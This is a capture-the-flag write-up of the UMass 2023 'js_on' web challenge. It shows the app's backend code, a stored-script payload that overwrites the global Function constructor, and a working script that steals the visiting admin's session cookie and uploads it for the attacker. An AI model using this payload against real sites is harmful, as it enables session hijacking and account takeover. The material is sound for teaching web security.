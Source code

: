 # UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into when opening this challenge is a website that allows you to execute and save / share a snippet of javascript code together with a predefined execution environment called `JS-ON`. In this case, prefilled with a snippet of code logging a hello-world variable.

Of note is that `JS-ON` snippets are running entirely client-side and only use the backend for code/environment storage. At no point is any user-defined JS being executed on the server.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>The main website</p></figcaption></figure>

In addition to the main JS-ON page, there's an 'admin bot' website that can visit arbitrary JS-ON snippets. Clicking `Submit` does not offer any output or other information about what the bot is doing _exactly_ besides giving a "currently visiting" and "visit done" status update.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>The bot website</p></figcaption></figure>

Finally, we also get an `app.js` file that gives us a peek at the backend of `JS-ON`:

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

The server creates a unique identifier cookie for each user that connects to it, and saves the user's code and JS-ON environment in Redis using that id.

There is also an admin feature that allows a user with a specific admin cookie to access a pre-defined `JS-ON` snippet containing the flag at the special url `/code/admin`.

<pre class="language-javascript"><code class="lang-javascript"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

Of note is that there are no strict checks in place that limit a user to their own ID's snippet. While _updating_ is only possible on your own snippet, you may in fact open any other user's snippet for _viewing_ if you know the ID. This will be important later.

## The solution

The website and it's hello-world example are relatively bare-bones. At first sight it seems all we can put in the JS-ON box are variables to be accessed by the code snippet.&#x20;

However, looking at the client-side sources, we can see that JS-ON actually also supports defining objects (using `obj_name`) and functions (`func_name`).&#x20;

<figure><img src="../.gitbook/assets/2023-03-27T141617,933645858+0200.png" alt=""><figcaption><p>The JS-ON fetch code running at page-load</p></figcaption></figure>

Especially interesting here is the way these created functions, vars, and objects are stored. They are written into something called `cur` which - further down in the invocation - turns out to be `this` which - due to the call not being inside any `function` - turns out to be the javascript `window` object.

Since anything inside `window` is accessible globally, we can trick this code into overwriting the `Function()` constructor, giving us arbitrary code execution instantly after the page is loaded without needing to press the `Run this code!` button (as long as the override `func_` is followed by another dummy `func_` that triggers the invocation).

For example:

```json
{
    "func_Function": "alert('ohno');",
    "func_require": ";"
}
```

<figure><img src="../.gitbook/assets/2023-03-27T143157,884121737+0200.png" alt=""><figcaption></figcaption></figure>

With zero-click code execution working - and the fact that any user can freely open any other user's snippets - we can extend our snippet into a tool that steals the current user cookie of whoever opens our snippet, and leak it back to us by uploading it as a replacement snippet.

This may for example look like this:

```javascript
let adminCookie = document.cookie;
document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';

fetch('/code', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({ 
      code: ace.edit('editor1').getValue(), 
      'js-on': JSON.stringify({var_cookie: adminCookie})
  }) 
});
```

Now wrap that into a single-line string as the `func_Function` JS-ON:

```json
 {
     "func_Function": "let adminCookie = document.cookie; document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/'; fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });",
     "func_require": ";"
 }
```

Since this code runs directly at page load, and `Save your Code & JS-ON!` always does a refresh, we need to submit this to our user ID using burp, curl, or any other non-browser tool.

Next open the admin bot and ask it to open `/user/7ed131b9-415d-465d-8a2b-3ffd68ad4acd`.

Refresh your page in the browser, and you got the cookie:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Replace your cookie with this value, open `/code/admin`, and we've got the flag:

{% code overflow="wrap" %}
```json
{
    "code": "/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag",
    "js-on": {
        "var_flag": "UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"
    }
}
```
{% endcode %}

